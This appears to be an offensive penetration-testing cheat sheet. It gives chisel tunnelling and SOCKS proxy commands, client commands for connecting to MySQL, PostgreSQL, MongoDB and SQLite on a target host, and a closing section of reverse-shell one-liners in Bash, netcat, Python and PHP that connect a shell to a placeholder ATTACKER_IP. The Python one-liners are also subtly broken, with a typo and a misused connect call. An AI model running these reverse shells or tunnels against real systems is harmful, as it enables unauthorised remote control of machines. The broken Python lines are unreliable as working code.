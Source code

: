 #### chisel
- Start a chisel server `chisel server -p PORT --reverse`
- Start a chisel client `chisel client SERVER_IP:PORT LOCAL_PORT:REMOTE_ADDRESS:REMOTE_PORT`
    - To create a dynamic SOCKS proxy `chisel client SERVER_IP:PORT socks LOCAL_PORT`
    - To use a specific HTTP proxy `--proxy http://PROXY_IP:PROXY_PORT`
    - To use a specific username and password for the proxy `--proxy-user USERNAME --proxy-pass PASSWORD`


### Databases

#### MySQL
- Connect to MySQL server `mysql -h TARGET_IP -P PORT -u USERNAME -p`
    - To list databases `SHOW DATABASES;`
    - To use a specific database `USE DATABASE;`
    - To list tables in the current database `SHOW TABLES;`
    - To describe a table `DESCRIBE TABLE;`
    - To execute a query `SELECT * FROM TABLE;`
    - To exit MySQL `EXIT;` or `QUIT;`

#### PostgreSQL
- Connect to PostgreSQL server `psql -h TARGET_IP -p PORT -U USERNAME -d DATABASE`
    - To list databases `\l`
    - To connect to a specific database `\c DATABASE`
    - To list tables in the current database `\dt`
    - To describe a table `\d TABLE`
    - To execute a query `SELECT * FROM TABLE;`
    - To exit PostgreSQL `\q`   

#### MongoDB
- Connect to MongoDB server `mongo --host TARGET_IP --port PORT -u USERNAME -p PASSWORD --authenticationDatabase DATABASE`
    - To list databases `show dbs`
    - To use a specific database `use DATABASE`
    - To list collections in the current database `show collections`
    - To execute a query `db.COLLECTION.find()`
    - To exit MongoDB `exit`

#### SQLite
- Connect to SQLite database `sqlite3 /path/to/database.db`
    - To list tables `.tables`
    - To describe a table `.schema TABLE`
    - To execute a query `SELECT * FROM TABLE;`
    - To exit SQLite `.exit` or `.quit`



### Reverse Shells
- Bash `bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1`
- Netcat traditional `nc -e /bin/sh ATTACKER_IP ATTACKER_PORT`
- Netcat openbsd `nc ATTACKER_IP ATTACKER_PORT -e /bin/sh`
- Python 2 `python -c 'import socket,subprocess,os;s=ocket.socket(socket.AF_INET,socket.SOCK_STREAM).connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- Python 3 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM).connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- PHP `php -r '$sock=fsockopen("ATTACKER_IP",ATTACKER_PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`
